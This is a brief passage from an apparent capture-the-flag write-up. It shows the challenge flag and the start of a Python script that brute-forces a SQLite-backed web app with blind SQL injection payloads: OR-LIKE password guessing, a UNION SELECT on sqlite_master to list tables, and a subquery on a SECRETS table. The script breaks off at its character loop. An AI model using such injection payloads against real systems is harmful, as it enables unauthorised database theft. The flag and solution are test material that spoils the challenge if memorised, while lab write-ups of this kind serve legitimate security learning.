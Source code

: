 	<img src="./flag.png">
</p>

## Flag:
*CTF{OH_DID_YOU_JUST_DUMP_ME?}*

---
## Code used

```python
import requests
import re

url = "http://165.22.90.215:8085"

# Bruteforcing of passwords in table"
# basePayload = "' OR password like '" 

# Bruteforcing SQLite database table names
# basePayload = "' UNION SELECT name FROM sqlite_master WHERE type='table' AND name LIKE '"
# Results:
# LEAKED_PASSWORDS
# SECRETS


# Bruteforce entry in SECRET table
basePayload = "' OR (SELECT * from SECRETS) LIKE '"

known = ""
i = 32 #Try ascii chars from 32(Space) to 125(})
while i < 126:
  # print known + chr(i)
```